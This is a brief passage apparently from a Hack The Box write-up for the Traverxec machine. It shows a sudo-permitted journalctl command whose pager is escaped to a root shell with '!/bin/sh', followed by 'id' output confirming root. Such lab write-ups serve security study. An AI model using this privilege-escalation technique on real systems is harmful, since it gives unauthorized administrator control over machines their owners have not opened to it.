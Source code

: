 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/traverxec_root.png){: .align-center}

(In a small window)
```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service

!done  (press RETURN)
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
And we are root!